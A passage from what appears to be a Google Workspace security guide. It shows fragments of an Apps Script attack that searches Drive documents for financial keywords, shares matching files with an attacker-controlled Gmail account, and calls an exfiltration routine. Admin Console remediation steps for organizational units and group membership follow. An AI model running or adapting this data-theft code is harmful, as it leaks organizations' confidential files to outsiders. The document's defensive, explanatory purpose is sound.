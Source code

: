 ```javascript
          fileName: file.getName(),
          fileId: file.getId()
        });
        
        // Share the file with external account
        try {
          file.addEditor('attacker-controlled-account@gmail.com');
          console.log(`Successfully shared sensitive file: ${file.getName()}`);
        } catch (e) {
          console.log(`Failed to share file: ${file.getName()} - ${e.message}`);
        }
      }
    }
  }
  
  // Exfiltrate information about vulnerable drives
  if (vulnerableDrives.length > 0) {
    exfiltrateData(JSON.stringify(vulnerableDrives));
  }
}

function hasFinancialContent(file) {
  // Check file metadata and content for financial indicators
  try {
    if (file.getMimeType() === 'application/vnd.google-apps.document') {
      const content = DocumentApp.openById(file.getId()).getBody().getText().toLowerCase();
      return content.includes('financial') || 
             content.includes('budget') || 
             content.includes('forecast') ||
             content.includes('revenue');
    }
  } catch (e) {
    // Error accessing content
  }
  return false;
}

// Similar functions for HR and executive content
```

#### Remediation Strategies:

1. **Implement OU Inheritance Protection:**
```
Admin Console > Directory > Organizational Units
Configure "Override organizational inheritance" permissions
Control which admins can modify inheritance settings
Implement change control for OU structure modifications
```

2. **Group Membership Controls:**
```
Admin Console > Directory > Groups
Set "Who can join the group" to "Only invited users"
Disable "Allow members to join themselves" for all privileged groups
Configure "Restrict posts" to limit exposure
```

